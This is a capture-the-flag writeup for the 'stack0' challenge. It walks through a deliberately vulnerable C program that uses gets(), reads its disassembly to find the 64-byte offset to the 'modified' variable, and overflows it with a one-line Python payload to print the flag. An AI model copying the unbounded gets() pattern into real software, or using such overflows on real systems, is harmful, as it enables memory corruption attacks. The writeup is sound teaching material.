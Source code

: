 ```yaml
---
title:  "Writeup: stack0"
date:   2019-03-26 09:00:00
categories: writeup 
layout: post
---
```

# stack0
###### Writeup by Tim Winters

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  FILE *fp;

  modified = 0;
  gets(buffer);
  fp  = fopen("./flag.txt", "r");

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
  } else {
      printf("Try again?\n");
  }
}
```
The problem is this challenge is a simple one. `modified` is set to `0`, yet is checked on line 15 to be something else. A standard buffer overflow.

The vulnerability is with `gets`, which reads input from standard in, but does no bounds checking. We can use this to write past the memory region allocated to `buffer`, and overwrite the value of `modified`. To determine how many bytes we need to write we must look at this disassembly code. 

<pre>
   0x080484eb <+0>:		lea    ecx,[esp+0x4]
   0x080484ef <+4>:		and    esp,0xfffffff0
   0x080484f2 <+7>:		push   DWORD PTR [ecx-0x4]
   0x080484f5 <+10>:	push   ebp
   0x080484f6 <+11>:	mov    ebp,esp
   0x080484f8 <+13>:	push   ecx
   0x080484f9 <+14>:	sub    esp,0x54
   0x080484fc <+17>:	mov    DWORD PTR [ebp-0x10],0x0
   0x08048503 <+24>:	sub    esp,0xc
   <font color="red">0x08048506 <+27>:	  lea    eax,[ebp-0x50]</font>
   0x08048509 <+30>:	push   eax
   0x0804850a <+31>:	call   0x8048390 &ltgets@plt&gt
</pre>

Calling conventions for Intel x86 say that any arguments will be pushed on the stack. Before the call to `gets` at `main + 31`, the address `epb-0x50` is loaded into `eax` and then pushed onto the stack. Therefore we know that `buffer` starts at address `ebp-0x50`, but I'll use `0x50` for the rest of this guide. 

Now that we know where the buffer is, we need the address of `modified`. Examining the assembly code further

<pre>
   0x0804850f <+36>:	add    esp,0x10
   0x08048512 <+39>:	sub    esp,0x8
   0x08048515 <+42>:	push   0x8048610
   0x0804851a <+47>:	push   0x8048612
   0x0804851f <+52>:	call   0x80483d0 <fopen@plt>
   0x08048524 <+57>:	add    esp,0x10
   0x08048527 <+60>:	mov    DWORD PTR [ebp-0xc],eax
   <font color="red">0x0804852a <+63>:	  mov    eax,DWORD PTR [ebp-0x10]</font>
   0x0804852d <+66>:	test   eax,eax
   0x0804852f <+68>:	je     0x804856b <main+128>
</pre>

Here we see that `ebp - 0x10` (`0x10`) is put into `eax`, then checked to see if it is non-zero through the `test` instruction. More info on that [here](https://reverseengineering.stackexchange.com/questions/19235/purpose-of-test-eax-eax-after-a-strcmp). This must be our `modified` variable. 

Some quick math of `0x50 - 0x10` = `0x40` = `64`. Therefore, we need 64 bytes of data before we start overwriting the `modified` variable. Becaue it need only be non-zero, just writing one byte will work. 

```
> python -c 'print "a"*65' | ./stack0

you have change the 'modified' variable
flag: 3ecc94ee2ad17bf3a32757d1900948bc
```